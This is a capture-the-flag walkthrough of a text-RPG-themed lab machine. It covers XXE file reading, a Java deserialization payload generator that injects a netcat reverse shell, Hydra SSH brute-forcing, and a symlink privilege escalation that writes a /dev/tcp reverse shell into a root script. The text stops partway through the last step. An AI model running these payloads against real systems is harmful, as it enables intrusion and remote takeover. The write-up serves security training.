



## You're in a cave.

Room Description: A room with some ctf elements inspired in text based RPGs


---

## Objectives

1. What was the weird thing carved on the door?
2. What weapon you used to defeat the skeleton?
3. What is the cave flag?
4. What is the outside flag?

---

## Adding target to /etc/hosts

```
sudo echo -e "10.128.186.136 cave.thm" | sudo tee -a /etc/hosts
```

## Enumeration & Recon

> Rustscan results:

```bash
rustscan -a cave.thm --ulimit 5000 --range 1-65535 -- -sCV -O
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: http://discord.skerritt.blog         :
: https://github.com/RustScan/RustScan :
 --------------------------------------
Open ports, closed hearts.

[~] The config file is expected to be at "/root/.rustscan.toml"
[~] Automatically increasing ulimit value to 5000.
Open 10.128.186.136:80
Open 10.128.186.136:2222
Open 10.128.186.136:3333
[~] Starting Script(s)
PORT     STATE SERVICE    REASON         VERSION
80/tcp   open  http       syn-ack ttl 62 Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Document
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
2222/tcp open  ssh        syn-ack ttl 62 OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 79:16:b1:ce:e1:16:79:b4:f1:c7:1f:09:05:b7:75:58 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDSaK6ObZFXig5BkU5l9Q93xGbK2DZHPk4lVbU3Bb0nTzNYK13RTmVxgsI99ib9UFNCNFE+z0/Whm1IEfd4zc163VpTBy8XWL+V/9SHALariFmB5oxY/9tYe2y22LLQQjvF5leuNglhawyDa9b/8v85EknYmtgSaw9adqdUFOkX/X9Od5xienC1SFclB+J3BShCTLdObEkhCPOj01EX31BdCfvbdBDpCtBLZy+eMUcnL9BKNHztDjoB6DDCiFvVwchi+B4a9UoXR+jqGyfKmawzVjySgC3EMJ8bhMvhq1Y1odXJ3UOc1UvEt0UbgGOUbsDXP2FeYKzhebLcMw3WPw7/0UH+P6bO3lpCDlT/8cFX3LQ/YPR+jWNXTaxJpSGgtdMQZtjZuxdhtqF4k7dcgnMqg6hlmoMm6L4ttK/BkW8WQPndulkhfijKxAbUjwBKJfzX84ECSakSk92slUH/ANyyceZG2x5GRF+/EMRasYF1+8nQ7UCw66LtkpYmhJGQOO8=
|   256 35:60:6e:3b:a8:ac:4a:6a:76:42:3d:59:13:04:90:19 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBC5qUgJqhJDqY31rnfF1SEX79P2lCkxWrwIlMwyPbEBimlf8SryTdh0SeJbE1S+yopedohItJgZvnf7inSrqkk4=
|   256 79:a6:05:ca:84:32:dc:59:b4:9b:8b:30:95:34:00:c8 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIE4DPjU+eVlEZSI6qHQ8/JdPLYigyluwDMOC1+bLo5Op
3333/tcp open  dec-notes? syn-ack ttl 62
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, JavaRMI, NULL, RPCCheck, SMBProgNeg, X11Probe, kumo-server: 
|     You find yourself in a cave, what do you do?
|   FourOhFourRequest, GenericLines, GetRequest, HTTPOptions, Help, Kerberos, LPDString, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
|     You find yourself in a cave, what do you do?
|_    Nothing happens
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
```

> Feroxbuster results:

```bash
feroxbuster -u http://cave.thm -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt            
                                                                                                                                                                   
 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.13.1
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://cave.thm/
 🚩  In-Scope Url          │ cave.thm
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
 👌  Status Codes          │ All Status Codes!
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.13.1
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
404      GET        9l       31w      270c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
403      GET        9l       28w      273c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
200      GET        1l        1w      197c http://cave.thm/search
400      GET        0l        0w        0c http://cave.thm/action.php
200      GET       14l       27w      337c http://cave.thm/
200      GET        1l        1w      181c http://cave.thm/attack
200      GET        1l        1w      261c http://cave.thm/lamp
200      GET        1l        1w      249c http://cave.thm/matches
200      GET        1l        1w      161c http://cave.thm/walk
[####################] - 6m    220547/220547  0s      found:7       errors:2      
[####################] - 6m    220546/220546  643/s   http://cave.thm/ 
```

---

## More Recon:

> I digged in `/matches`, `/search`, `/index.php`, and `/action.php`.

1. Inside /matches, I found: `"rO0ABXNyAAZBY3Rpb275vE3ugB8ZOwIAA0wAB2NvbW1hbmR0ABJMamF2YS9sYW5nL1N0cmluZztMAARuYW1lcQB+AAFMAAZvdXRwdXRxAH4AAXhwdABUWW91IGZpbmQgYSBib3ggb2YgbWF0Y2hlcywgaXQgZ2l2ZXMgZW5vdWdoIGZpcmUgZm9yIHlvdSB0byBzZWUgdGhhdCB5b3UncmUgaW4gYHB3ZGAudAAHbWF0Y2hlc3QAAA=="`
2. Inside `/search`:
`"rO0ABXNyAAZBY3Rpb275vE3ugB8ZOwIAA0wAB2NvbW1hbmR0ABJMamF2YS9sYW5nL1N0cmluZztMAARuYW1lcQB+AAFMAAZvdXRwdXRxAH4AAXhwdAAuWW91IGNhbid0IHNlZSBhbnl0aGluZywgdGhlIGNhdmUgaXMgdmVyeSBkYXJrLnQABnNlYXJjaHQAAA=="`

Using cyberchef, I got some readable strings when converted from Base64, which I already knew by connecting to port 3333 using nc:

> matches

```shell
┌──(root㉿kali)-[~]
└─# nc cave.thm 3333
You find yourself in a cave, what do you do?
> matches
You find a box of matches, it gives enough fire for you to see that you're in /home/cave/src.
```

> search

```shell
┌──(root㉿kali)-[~]
└─# nc cave.thm 3333
You find yourself in a cave, what do you do?
search
You can't see anything, the cave is very dark.
```

At least we get a clue about 'pwd': `/home/cave/src`.

> attack

```shell
┌──(root㉿kali)-[~]
└─# nc cave.thm 3333                                                                                            
You find yourself in a cave, what do you do?
attack
You punch the wall, nothing happens.
```

> lamp

```shell
┌──(root㉿kali)-[~]
└─# nc cave.thm 3333
You find yourself in a cave, what do you do?
lamp
You grab a lamp, and it gives enough light to search around
Action.class
RPG.class
RPG.java
Serialize.class
commons-io-2.7.jar
run.sh
```

> walk

```shell
┌──(root㉿kali)-[~]
└─# nc cave.thm 3333
You find yourself in a cave, what do you do?
walk
There's nowhere to go.
```

---

> But when I carried this interaction out using the browser on port `80`, something strange happens:



> I was redirected to /action.php, which gave 400 error code, even though my input was just 'matches'. So I opened burp suite and started intercepting the traffic to observe the requests.


> POST Request in BP looked like this:



---

## XXE Injection & Exfiltration

> Then I changed the `Content-Type` header to `application/xml`, because the server also accepted xml type. And it finally gives us something to work with in the error message.



> Then I pasted a basic XML text to see if it worked. If we see "Doe" printed on response, it is vulnerable to XXE injection. And... It worked!!!


> I already knew the server used php technology, obviously from .php extensions. After this, I exfiltrated `/etc/passwd`, using 'php://' wrapper to encode the output in base64, because as we know, this file includes special characters that are not suitable for XML structure, and easily breaks it, that's why we encode it to avoid those issues. And bull's eye!


> Decoded output:

```text
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:101:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:105::/nonexistent:/usr/sbin/nologin
sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
cave:x:1000:1000:,,,:/home/cave:/bin/bash
door:x:1001:1001:,,,:/home/door:/bin/bash
skeleton:x:1002:1002:,,,:/home/skeleton:/bin/bash
```

> Oh, we look what we have: `cave`, `door`, and `skeleton`. Looking at the output of /etc/hostname, the current user is `cave`.

## Action.php Contents & Leakage:


> Decoded Output:

```text
<?php
     
    libxml_disable_entity_loader (false);
    libxml_use_internal_errors(true);

    $data = trim(file_get_contents('php://input'));
    if($data == ""){
        $data = urldecode(trim(parse_url($_SERVER['REQUEST_URI'], PHP_URL_QUERY)));
    }
    $dom = new DOMDocument();
    $dom->loadXML($data, LIBXML_NOENT | LIBXML_DTDLOAD);
    $xml = simplexml_import_dom($dom);
     
    if(!isset($xml)) {
        header($_SERVER["SERVER_PROTOCOL"]." 400 Bad Request", true, 400);

        if($_SERVER["CONTENT_TYPE"] == "application/xml" || $_SERVER["CONTENT_TYPE"] == "text/xml"){
            foreach(libxml_get_errors() as $xmlError) {
                echo $xmlError->message . "\t";
            }
        }

        exit;
    }

    echo $xml;
?>

```

> Reading RPG.java from `/home/cave/src/RPG.java`:


> Decoded Output: [here](https://github.com/Velatryx/CTF-Writeups/blob/main/AcademyLabs/TryHackMe/Insane/You're%20in%20a%20Cave/RPG.java)

---

## Serialized Object -> RCE

> This part messed me up, but I finally pulled it off. Our hint is, changing the request parameter to GET, and include the serialized object (reverse shell) as request parameter inside </xml> brackets: GET /action.php?<xml>[serialized object]</xml> , and if we see a 200 code and the object in response body, it means it worked.

> Payload Generator:

```bash
import java.util.*;
import java.io.*;
import java.io.IOException;
import java.io.InputStream;
import java.net.ServerSocket;
import java.net.Socket;
import java.net.URL;
import java.net.URLConnection;
import java.util.Scanner;
import java.util.logging.Level;
import java.util.logging.Logger;

// Renamed to match PayloadGenerator.java
public class PayloadGenerator {

    private static final int port = 3333;
    private static Socket connectionSocket;

    private static InputStream is;
    private static OutputStream os;

    private static Scanner scanner;
    private static PrintWriter serverPrintOut;


    public static void main(String[] args) {                                                                                                  
        try{                                                                                                                                  
            String str = Serialize.toString( new Action("abc","trying\";rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.152.35 4444 >/tmp/f;echo \"") );                                                                                                                        
            System.out.println( "abc : " + str );                                                                                                                                                                        
        }catch(Exception e){                                                                                                                  
            System.out.println("aa");
        }
    }

}

class Action implements Serializable {

    public final String name;
    public final String command;
    public String output = "";

    public Action(String name, String command) {
        this.name = name;
        this.command = command;
    }

    public void action() throws IOException, ClassNotFoundException {
        String s = null;
        String[] cmd = {
            "/bin/sh",
            "-c",
            "echo \"" + this.command + "\""
        };
        Process p = Runtime.getRuntime().exec(cmd);
        BufferedReader stdInput = new BufferedReader(new InputStreamReader(p.getInputStream()));
        String result = "";
        while ((s = stdInput.readLine()) != null) {
            result += s + "\n";
        }
        this.output = result;
    }
}

class Serialize {

    /**
     * Read the object from Base64 string.
     */
    public static Object fromString(String s) throws IOException,
            ClassNotFoundException {
        byte[] data = Base64.getDecoder().decode(s);
        ObjectInputStream ois = new ObjectInputStream(
                new ByteArrayInputStream(data));
        Object o = ois.readObject();
        ois.close();
        return o;
    }

    /**
     * Write the object to a Base64 string.
     */
    public static String toString(Serializable o) throws IOException {
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(o);
        oos.close();
        return Base64.getEncoder().encodeToString(baos.toByteArray());
    }
}
```

Output:

```shell
┌──(root㉿kali)-[~]
└─# java PayloadGenerator     
abc : rO0ABXNyAAZBY3Rpb275vE3ugB8ZOwIAA0wAB2NvbW1hbmR0ABJMamF2YS9sYW5nL1N0cmluZztMAARuYW1lcQB+AAFMAAZvdXRwdXRxAH4AAXhwdABgdHJ5aW5nIjtybSAvdG1wL2Y7bWtmaWZvIC90bXAvZjtjYXQgL3RtcC9mfC9iaW4vc2ggLWkgMj4mMXxuYyAxOTIuMTY4LjE1Mi4zNSA0NDQ0ID4vdG1wL2Y7ZWNobyAidAADYWJjdAAA
```

> And result came back! 


---

## Reverse Shell

> Now let's test this with the service running on port 3333

```shell
┌──(root㉿kali)-[~]
└─# nc cave.thm 3333
You find yourself in a cave, what do you do?
action.php?<xml>rO0ABXNyAAZBY3Rpb275vE3ugB8ZOwIAA0wAB2NvbW1hbmR0ABJMamF2YS9sYW5nL1N0cmluZztMAARuYW1lcQB%2bAAFMAAZvdXRwdXRxAH4AAXhwdABgdHJ5aW5nIjtybSAvdG1wL2Y7bWtmaWZvIC90bXAvZjtjYXQgL3RtcC9mfC9iaW4vc2ggLWkgMj4mMXxuYyAxOTIuMTY4LjE1Mi4zNSA0NDQ0ID4vdG1wL2Y7ZWNobyAidAADYWJjdAAA</xml>

<Response Hanging>
```

> Tab 2:

```shell
┌──(root㉿kali)-[~]
└─# rlwrap nc -lvnp 4444
listening on [any] 4444 ...
connect to [192.168.152.35] from (UNKNOWN) [10.128.152.11] 32776
/bin/sh: 0: can't access tty; job control turned off
$ python -c 'import pty;pty.spawn("/bin/bash")'
cave@cave:~/src$ id               id
id
uid=1000(cave) gid=1000(cave) groups=1000(cave)
cave@cave:~/src$ 
```

> Objective 1: Complete

```bash
cave@cave:~$ ls -la       ls -la
ls -la
total 48
drwxr-xr-x 1 cave cave 4096 Aug 28  2020 .
drwxr-xr-x 1 root root 4096 Aug 27  2020 ..
lrwxrwxrwx 1 cave cave    9 Aug 27  2020 .bash_history -> /dev/null
-rw-r--r-- 1 cave cave  220 Aug 21  2020 .bash_logout
-rw-r--r-- 1 cave cave 3771 Aug 21  2020 .bashrc
drwx------ 2 cave cave 4096 Aug 21  2020 .cache
drwxrwxr-x 3 cave cave 4096 Aug 24  2020 .local
-rw-r--r-- 1 cave cave  807 Aug 21  2020 .profile
-rw-rw-r-- 1 cave cave  286 Aug 28  2020 info.txt
drwxr-xr-x 1 cave cave 4096 Aug 26  2020 src
cave@cave:~$ cat info.txt cat info.txt
cat info.txt
After getting information from external entities, you saw that one part of the wall was different from the rest, when touching it, it revealed a wooden door without a keyhole.
On the door it is carved the following statement:

              The password is in
        ^ed[h#f]{3}[123]{1,2}xf[!@#*]$

cave@cave:~$ 
```

---

## Lateral Movement:

> We had the regex which door's password is made of. I used regex to generate a password list.

```shell
┌──(venv)─(root㉿kali)-[~/venv]
└─# exrex -o passwords '^ed[h#f]{3}[123]{1,2}xf[@#\*\!]$'
                                                                                                                                                                   
┌──(venv)─(root㉿kali)-[~/venv]
└─# head -10 passwords                                                    
edhhh1xf@
edhhh1xf#
edhhh1xf*
edhhh1xf!
edhhh2xf@
edhhh2xf#
edhhh2xf*
edhhh2xf!
edhhh3xf@
edhhh3xf#                                                                                                                                                       
┌──(venv)─(root㉿kali)-[~/venv]
└─# 
```

> Hydra brute forcing on port 2222

```shell
┌──(venv)─(root㉿kali)-[~/venv]
└─# hydra -l door -P passwords ssh://cave.thm -s 2222
Hydra v9.7 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2026-07-12 17:46:45
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 1296 login tries (l:1/p:1296), ~81 tries per task
[DATA] attacking ssh://cave.thm:2222/
[STATUS] 256.00 tries/min, 256 tries in 00:01h, 1041 to do in 00:05h, 15 active
[STATUS] 248.67 tries/min, 746 tries in 00:03h, 552 to do in 00:03h, 14 active
[2222][ssh] host: cave.thm   login: door   password: edfh#22xf!
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2026-07-12 17:50:42
```

> Okay, we got a hit with `door:edfh#22xf!`. Let's connect via ssh:

```shell
┌──(venv)─(root㉿kali)-[~/venv]
└─# ssh door@cave.thm -p 2222
The authenticity of host '[cave.thm]:2222 ([10.130.130.129]:2222)' can't be established.
ED25519 key fingerprint is: SHA256:Hnwg+a7PSFNlwmGGwj3zq5cewCxz/3v1bB1SaeMwY3U
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[cave.thm]:2222' (ED25519) to the list of known hosts.
** WARNING: connection is not using a post-quantum key exchange algorithm.
** This session may be vulnerable to "store now, decrypt later" attacks.
** The server may need to be upgraded. See https://openssh.com/pq.html
door@cave.thm's password: 
Welcome to Ubuntu 20.04 LTS (GNU/Linux 4.15.0-112-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
door@cave:~$ ls
info.txt  oldman.gpg  skeleton
door@cave:~$ cat info.txt
After using your brute force against the door you broke it!
You can see that the cave has only one way, in your right you see an old man speaking in charades and in front of you there's a fully armed skeleton.
It looks like the skeleton doesn't want to let anyone pass through.
door@cave:~$ 
```

> I saw that there was an environment variable called `INVENTORY`, and obviously, we need to export an item to defeat the skeleton. After a hint, I discovered the `adventurer` folder inside `/var/www` which belonged to `root` user and `www-data` group, hinting a potential subdomain. I added it to my `/etc/hosts`, and found the `adventurer.priv` file with a private GPG KEY inside. We can decrypt what the oldman says.

```shell
door@cave:~$ cat -v info.txt 
After using your brute force against the door you broke it!
You can see that the cave has only one way, in your right you see an old man speaking in charades and in front of you there's a fully armed skeleton.
The private key password is breakingbonessince1982 ^[[A
It looks like the skeleton doesn't want to let anyone pass through.
door@cave:~$ gpg --import private.key
gpg: key FFF6C0EECD850FDC: "adventurer <adventurer@cave.com>" not changed
gpg: key FFF6C0EECD850FDC: secret key imported
gpg: Total number processed: 1
gpg:              unchanged: 1
gpg:       secret keys read: 1
gpg:   secret keys imported: 1
door@cave:~$ gpg --decrypt oldman.gpg
gpg: Note: secret key D5A213D292A0A259 expired at Fri Aug 26 20:07:51 2022 -03
gpg: encrypted with 3072-bit RSA key, ID D5A213D292A0A259, created 2020-08-26
      "adventurer <adventurer@cave.com>"
IT'S DANGEROUS TO GO ALONE! TAKE THIS bone-breaking-war-hammer
door@cave:~$ 

```

> First, I imported the private gpg key as private.key, but it asked for a passphrase. I did not know it, but looks like it was inside `info.txt` all along. It was just hidden with the help of `^[[A`. Then I defeated the skeleton with the hammer. After this, I will read every .txt file with `cat -v` xD

```shell
door@cave:~$ export INVENTORY=bone-breaking-war-hammer
door@cave:~$ ./skeleton
skeleton:sp00kyscaryskeleton
door@cave:~$ 
```

## Skeleton

> I authenticated as `Skeleton`, and when I saw the word root, I instantly thought maybe we had to finally privEsc instead of moving laterally, and used `sudo -l` to list the current user's privileges. `/bin/kill`? Well, that's new. There was nothing in GTFObins so I had to come up with something myself.


```shell
┌──(root㉿kali)-[~/venv]
└─# ssh skeleton@cave.thm -p 2222
** WARNING: connection is not using a post-quantum key exchange algorithm.
** This session may be vulnerable to "store now, decrypt later" attacks.
** The server may need to be upgraded. See https://openssh.com/pq.html
skeleton@cave.thm's password: 
Welcome to Ubuntu 20.04 LTS (GNU/Linux 4.15.0-112-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
skeleton@cave:~$ ls
info.txt
skeleton@cave:~$ cat -v info.txt
After successfully defeating the skeleton with the bone-breaking-war-hammer you went forward.
In front of you there's a big opening and after it there's a huge tree that seems magical, you can feel the freedom!
But although you can see it, you can't go to it because there's an invisible wall that keeps you from getting to the root of the tree.
skeleton@cave:~$ sudo -l
Matching Defaults entries for skeleton on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User skeleton may run the following commands on localhost:
    (root) NOPASSWD: /bin/kill
```

> Let's check the sudo version, because there was nothing I could do with kill binary, considering how dry was that `ps aux` results. However, inside /opt:

```shell
skeleton@cave:/opt/link$ find / -perm -o+w -type d 2>/dev/null
/dev/shm
/dev/mqueue
/run/lock
/tmp
/var/tmp
/var/lib/php/sessions
/opt/link

skeleton@cave:/$ cd /opt
skeleton@cave:/opt$ ls
link
skeleton@cave:/opt$ cd link
skeleton@cave:/opt/link$ ls
startcon
skeleton@cave:/opt/link$ ls -la startcon 
lrwxrwxrwx 1 skeleton skeleton 16 Aug 27  2020 startcon -> ../root/start.sh
skeleton@cave:/opt/link$ 
```

> Then I removed the startcon and created my own symlink since this folder is world writable, and owned by root. Since there was no root directory under /opt, we had to fix it by making it an absolute path. Looks like we can manipulate the root owned start.sh file. Let's put our malicious commands inside it.

```shell
skeleton@cave:/opt/link$ ls -la
total 8
drwxrwxrwx 2 root     root     4096 Aug 28  2020 .
drwxr-xr-x 1 root     root     4096 Aug 27  2020 ..
lrwxrwxrwx 1 skeleton skeleton   16 Aug 27  2020 startcon -> ../root/start.sh
skeleton@cave:/opt/link$ cat startcon
cat: startcon: No such file or directory
skeleton@cave:/opt/link$ rm startcon
skeleton@cave:/opt/link$ ln -s /root/start.sh privesc
skeleton@cave:/opt/link$ cat privesc 
#!/bin/bash

service ssh start
service apache2 start
su - cave -c "cd /home/cave/src; ./run.sh"

/bin/bash
skeleton@cave:/opt/link$ 

```

> Looks like we are inside of a docker container.

```shell
skeleton@cave:/opt/link$ nano privesc
skeleton@cave:/opt/link$ cat privesc
#!/bin/bash

bash -i >& /dev/tcp/192.168.152.35/1234 0>&1
skeleton@cave:/opt/link$ ps au
USER       PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root         1  0.0  0.1   3980  2840 pts/0    Ss+  20:02   0:00 /bin/bash /root/start.sh
root        63  0.0  0.1   5272  3228 pts/0    S+   20:02   0:00 su - cave -c cd /home/cave/src; ./run.sh
skeleton   103  0.0  0.1   5996  3860 pts/1    Ss   20:03   0:00 -bash
skeleton   117  0.0  0.1   7636  3284 pts/1    R+   20:07   0:00 ps au
skeleton@cave:/opt/link$ ls -la /.dockerenv       ls -la /.dockerenv
ls -la /.dockerenv
-rwxr-xr-x 1 root root 0 Aug 27  2020 /.dockerenv
skeleton@cave:/opt/link$ cat /proc/1/cgroup
12:freezer:/docker/6c1115081ba4f0c04a9d2c8e883e327e7c07a9ce193732a9c331d68fca68a02b
11:rdma:/
10:pids:/docker/6c1115081ba4f0c04a9d2c8e883e327e7c07a9ce193732a9c331d68fca68a02b
9:cpu,cpuacct:/docker/6c1115081ba4f0c04a9d2c8e883e327e7c07a9ce193732a9c331d68fca68a02b
8:perf_event:/docker/6c1115081ba4f0c04a9d2c8e883e327e7c07a9ce193732a9c331d68fca68a02b
7:blkio:/docker/6c1115081ba4f0c04a9d2c8e883e327e7c07a9ce193732a9c331d68fca68a02b
6:hugetlb:/docker/6c1115081ba4f0c04a9d2c8e883e327e7c07a9ce193732a9c331d68fca68a02b
5:memory:/docker/6c1115081ba4f0c04a9d2c8e883e327e7c07a9ce193732a9c331d68fca68a02b
4:cpuset:/docker/6c1115081ba4f0c04a9d2c8e883e327e7c07a9ce193732a9c331d68fca68a02b
3:devices:/docker/6c1115081ba4f0c04a9d2c8e883e327e7c07a9ce193732a9c331d68fca68a02b
2:net_cls,net_prio:/docker/6c1115081ba4f0c04a9d2c8e883e327e7c07a9ce193732a9c331d68fca68a02b
1:name=systemd:/docker/6c1115081ba4f0c04a9d2c8e883e327e7c07a9ce193732a9c331d68fca68a02b
0::/system.slice/snap.docker.dockerd.service
```

> Let's kill the process with pid 1, so it restarts, and script runs again on boot. I tried killing all processes using `sudo /bin/kill -9 -1, and even with -15, but it all gave segmentation fault. And killing the pid 1 process did not work, so I killed all one by one until container stopped.

> Tab 1

```shell
skeleton@cave:/opt/link$ ps aux
USER       PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
